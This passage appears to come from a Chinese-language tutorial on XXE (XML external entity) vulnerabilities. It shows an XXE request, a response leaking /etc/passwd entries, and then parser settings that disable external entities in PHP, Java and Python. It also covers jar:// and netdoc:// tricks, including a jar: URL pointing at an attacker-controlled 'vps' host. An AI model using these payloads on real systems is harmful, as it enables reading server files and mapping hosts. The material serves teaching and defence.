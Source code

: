 ```xml
<root>
<search>name</search>
<value>&xxe;</value>
</root>

HTTP Response:
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 2467
{"error": "no results for name root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync....
```

### **0x005 XXE 如何防御**
**方案一：使用语言中推荐的禁用外部实体的方法**

**PHP：**
```php
libxml_disable_entity_loader(true);
```

**JAVA:**
```java
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl",true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities",false)
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities",false);
```

**Python：**
```python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

### **0x006 其他姿势**

**利用jar协议配合xxe获取临时文件的目录**

jar:// 协议的格式：jar:{url}!{path}

jar:http://vps:8080/jar.zip!/1.php

如果jar.zip中不存在1.php 文件，则会报错，并在错误日志中打印临时文件目录

netdoc:// 列目录，列出某个目录下的文件

### **0x007 参考**
【1】http://www.k0rz3n.com/2018/11/19/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3%20XXE%20%E6%BC%8F%E6%B4%9E/
【2】https://www.freebuf.com/articles/web/97833.html